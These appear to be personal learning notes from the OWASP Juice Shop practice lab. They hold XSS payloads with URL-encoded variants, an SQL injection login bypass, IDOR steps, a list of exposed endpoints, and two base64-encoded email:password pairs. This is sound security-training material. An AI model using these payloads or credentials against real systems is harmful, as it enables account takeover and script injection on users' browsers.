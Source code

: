 dGVzdEBnbWFpbC5jb206cjNORDR3RWNaUHA4d1BXQAo=
dGVzdDJAZ21haWwuY29tOnIzTkQ0d0VjWlBwOHdQV0AK

Learned stuff

```javascript 
// html injection test incase it's filtered
"><U><h1>test

// IDOR edit someone elses review
// Make a normal review, then try to edit it and catch that request
// Now there is an id value in that req, which will be replaced by an id of other user.
// That other id can be found in /products/1/reviews



```

My findings.

```javascript
// XSS HTML injection in search bar at the home page, DOM-based XSS never stored in server rather reflected in clients browser, client side js exec
<button onclick="alert('xss');">click me</button>
// also with this url
http://localhost:3000/#/search?q=<button%20onclick%3D"alert('xss');">click%20me<%2Fbutton>

Official solution
<iframe src="javascript:alert(`xss`)">
// iframe is a html tag sued to embed another document
// it executes the js as soon as it sets the iframes src
// also url
http://localhost:3000/#/search?q=<iframe%20src%3D"javascript:alert(%60xss%60)">
```

```sql
-- sql injection, login as another user with email
SELECT * FROM Users WHERE email = 'admin@juice-sh.op' UNION ALL SELECT * FROM Users;--' AND password = '3590cb8af0bbb9e78c343b52b93773c9' AND deletedAt IS NULL
-- I think the Union select grabs the Users and it so happens that the user 1 is the admin from which the email is provided for or some flawed code logic
```

```text
You can spam the chatbot to give you coupon codes
```

```shell
http://localhost:3000/ftp/
# content discovery, broken access
```

```endpoints
/rest/admin/application-configuration
```


#### Cool http thing

```http
If-None-Match: W/"7e-ZY7YwAmktldL8HbCPMPYu03ONFk"
```

This HTTP header I think works kind of like a checksum on the data that the server has stored before transmission.
So for example, if you have a document that is dynamic, on every GET request after the first one if the document hasn't changed.
You will get HTTP response code `304 not modified`.

The header, likely does a initial check so no redundant requests with "large" data are sent.
Omitting it I think causes the check to fail each time, and resend the data even if nothing changed within it.

